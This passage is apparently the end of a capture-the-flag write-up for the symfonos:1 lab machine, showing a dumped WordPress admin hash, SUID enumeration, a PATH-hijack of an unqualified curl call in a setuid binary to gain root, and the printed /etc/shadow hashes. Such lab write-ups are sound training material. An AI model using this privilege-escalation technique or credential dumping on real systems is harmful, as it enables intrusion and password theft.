| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.01 sec)

MariaDB [wordpress]> select user_login, user_pass from wp_users;
select user_login, user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$B8GkoAZZA6.9fooDdaL05B0sazTW0P/ |
+------------+------------------------------------+
1 row in set (0.00 sec)
```

Hash: admin:$P$B8GkoAZZA6.9fooDdaL05B0sazTW0P/

## hashcat fails

## Find again

[Checkout tool find](../../tools/find/find.html)

### Recent files

```shell
helios@symfonos:/var/www/html$ find / -type f -not -path "/proc/*" -not -path "/sys/*" -and -mtime -1 -and -not -user root -exec ls -l "{}" \; 2>/dev/null
<and -not -user root -exec ls -l "{}" \; 2>/dev/null
-rw------- 1 postfix postfix 8192 Jan  4 08:23 /var/lib/postfix/smtpd_scache.db
-rw------- 1 postfix postfix 1024 Jan  4 08:23 /var/lib/postfix/prng_exch
-rw------- 1 postfix postfix 33 Jan  4 08:22 /var/lib/postfix/master.lock
-rw------- 1 postfix postfix 8192 Jan  4 08:23 /var/lib/postfix/smtp_scache.db
-rw-rw---- 1 mysql mysql 50331648 Jan  4 08:22 /var/lib/mysql/ib_logfile0
-rw-rw---- 1 mysql mysql 79691776 Jan  4 08:22 /var/lib/mysql/ibdata1
-rw-rw---- 1 mysql mysql 24576 Jan  4 08:22 /var/lib/mysql/tc.log
-rw------- 1 helios mail 4135 Jan  4 08:24 /var/mail/helios
-rw-rw---- 1 mysql mysql 4 Jan  4 08:22 /run/mysqld/mysqld.pid

```

### Backup

```shell
helios@symfonos:/var/www/html$ find / -type f -name "*bak" -exec ls -lh "{}" \; 2>/dev/null
<ype f -name "*bak" -exec ls -lh "{}" \; 2>/dev/null

helios@symfonos:/var/www/html$ find / -type f -name "*backup*" 2>/dev/null
find / -type f -name "*backup*" 2>/dev/null
/usr/bin/wsrep_sst_xtrabackup
/usr/bin/tdbbackup.tdbtools
/usr/bin/wsrep_sst_xtrabackup-v2
/usr/bin/mariabackup
/usr/bin/wsrep_sst_mariabackup
/usr/share/man/man1/wsrep_sst_xtrabackup.1.gz
/usr/share/man/man1/wsrep_sst_mariabackup.1.gz
/usr/share/man/man1/wsrep_sst_xtrabackup-v2.1.gz
/usr/share/man/man8/tdbbackup.tdbtools.8.gz
/lib/modules/4.9.0-9-amd64/kernel/drivers/net/team/team_mode_activebackup.ko
/var/lib/dpkg/alternatives/tdbbackup

helios@symfonos:/var/www/html$ find / -type d -name "*backup*" 2>/dev/null
find / -type d -name "*backup*" 2>/dev/null
/var/backups
```

### Databases

```shell
helios@symfonos:/var/www/html$ find / -name "*database*" 2>/dev/null
find / -name "*database*" 2>/dev/null
/usr/share/lintian/overrides/geoip-database
/usr/share/doc/geoip-database
/var/lib/dpkg/info/geoip-database.md5sums
/var/lib/dpkg/info/geoip-database.list
/var/lib/systemd/catalog/database

```

### SGID

```shell
helios@symfonos:/var/www/html$ find / -type f -perm -2000 -exec ls -la "{}" \; 2>/dev/null
<type f -perm -2000 -exec ls -la "{}" \; 2>/dev/null
-rwxr-sr-x 1 root shadow 35592 May 27  2017 /sbin/unix_chkpwd
-r-xr-sr-x 1 root postdrop 14456 Mar 25  2019 /usr/sbin/postdrop
-r-xr-sr-x 1 root postdrop 22600 Mar 25  2019 /usr/sbin/postqueue
-rwxr-sr-x 1 root shadow 22808 May 17  2017 /usr/bin/expiry
-rwxr-sr-x 1 root shadow 71856 May 17  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 14768 Apr 12  2017 /usr/bin/bsd-write
-rwxr-sr-x 1 root tty 27448 Mar  7  2018 /usr/bin/wall
-rwxr-sr-x 1 root ssh 358624 Mar  1  2019 /usr/bin/ssh-agent
-rwxr-sr-x 1 root mail 19008 Jan 17  2017 /usr/bin/dotlockfile
-rwxr-sr-x 1 root crontab 40264 Oct  7  2017 /usr/bin/crontab
-rwxr-sr-x 1 root mail 10952 Dec 24  2016 /usr/bin/dotlock.mailutils
```

### SUID

```shell
helios@symfonos:/var/www/html$ find / -type f -perm -4000 -exec ls -la "{}" \; 2>/dev/null
<type f -perm -4000 -exec ls -la "{}" \; 2>/dev/null
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 8640 Jun 28  2019 /opt/statuscheck
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
```

First intesting thing in a while is `/opt/statuscheck`

### `/opt/statuscheck`

```shell
helios@symfonos:/var/www/html$ file /opt/statuscheck
file /opt/statuscheck
/opt/statuscheck: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4dc315d863d033acbe07b2bfc6b5b2e72406bea4, not stripped

helios@symfonos:/var/www/html$ strings /opt/statuscheck
strings /opt/statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.6972
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
prog.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
_Jv_RegisterClasses
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
```

### notice

```shell
curl -I H
http://lH
ocalhostH
```

### Running binary

```shell
helios@symfonos:/var/www/html$ /opt/statuscheck
/opt/statuscheck
HTTP/1.1 200 OK
Date: Tue, 04 Jan 2022 14:48:29 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

### Replicating via curl.

```shell
helios@symfonos:/var/www/html$ curl -s -I http://localhost
curl -s -I http://localhost
HTTP/1.1 200 OK
Date: Tue, 04 Jan 2022 14:48:49 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

Basically, curl can be run as root. And `curl` is not invoked via full path.

## Path Abuse to root

```shell
helios@symfonos:/var/www/html$ cd /tmp
cd /tmp

helios@symfonos:/tmp$ ls -la
ls -la
total 8
drwxrwxrwt  2 root root 4096 Jan  4 08:22 .
drwxr-xr-x 22 root root 4096 Jun 28  2019 ..

helios@symfonos:/tmp$ echo "/bin/bash -pli" >> /tmp/curl
echo "/bin/bash -pli" >> /tmp/curl

helios@symfonos:/tmp$ chmod +x /tmp/curl
chmod +x /tmp/curl

helios@symfonos:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH

helios@symfonos:/tmp$ /opt/statuscheck
/opt/statuscheck

bash-4.4# id
id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
bash-4.4# whoami
whoami
root
bash-4.4# hostname
hostname
symfonos
bash-4.4# date
date
Tue Jan  4 08:53:14 CST 2022
bash-4.4# cd /root
cd /root
bash-4.4# ls -lA
ls -lA
total 16
lrwxrwxrwx 1 root root    9 Jun 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jun 28  2019 .selected_editor
-rw-r--r-- 1 root root 1735 Jun 28  2019 proof.txt
bash-4.4# cat proof.txt
cat proof.txt

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/,
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \
                  ;;;;'     (      ---~~/         `:::|       `\\.
                  |'  _      `----~~~~'      /      `:|        ()))),
            ______/\/~    |                 /        /         (((((())
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   (
        //  \ \                        /  |  \;;,\                 `
       (<_    \ \                    /',/-----'  _>
        \_|     \\_                 //~;~~~~~~~~~
                 \_|               (,~~
                                    \~\
                                     ~~

        Contact me via Twitter @zayotic to give feedback!

```



### /etc/shadow

```shell
root:$6$NSwfewfo$.XWyJnSz1jy8sgLAHPEKX3TSSCB9pQbfXru.uhfm/XuNo5nvPdTf9ajMfL.MMVjSk9tm/iLrcX1Z2QjTuHV0S0:18076:0:99999:7:::
daemon:*:18076:0:99999:7:::
bin:*:18076:0:99999:7:::
sys:*:18076:0:99999:7:::
sync:*:18076:0:99999:7:::
games:*:18076:0:99999:7:::
man:*:18076:0:99999:7:::
lp:*:18076:0:99999:7:::
mail:*:18076:0:99999:7:::
news:*:18076:0:99999:7:::
uucp:*:18076:0:99999:7:::
proxy:*:18076:0:99999:7:::
www-data:*:18076:0:99999:7:::
backup:*:18076:0:99999:7:::
list:*:18076:0:99999:7:::
irc:*:18076:0:99999:7:::
gnats:*:18076:0:99999:7:::
nobody:*:18076:0:99999:7:::
systemd-timesync:*:18076:0:99999:7:::
systemd-network:*:18076:0:99999:7:::
systemd-resolve:*:18076:0:99999:7:::
systemd-bus-proxy:*:18076:0:99999:7:::
_apt:*:18076:0:99999:7:::
Debian-exim:!:18076:0:99999:7:::
messagebus:*:18076:0:99999:7:::
sshd:*:18076:0:99999:7:::
helios:$6$TqhmMeL9$gBPdf54cCm0VL/0YIgJLEwdNv7YhCZGHcpRgmgCVV1mV4bVUdhu5mC/J/.g1a1ROIpZfVmygOlTgg.3Aby48c0:18076:0:99999:7:::
mysql:!:18076:0:99999:7:::
postfix:*:18076:0:99999:7:::
```

Rooted.

## How to hack?

1. Enumerate SMB, find user, find world-open share
2. Find potential passwords
3. Find more files, find web directory
4. Find vulnerability
5. Send email to introduce another vulnerability
6. Catch a shell
7. Find elevated privileges' binaries
8. Abuse path to root

</body>
</html>
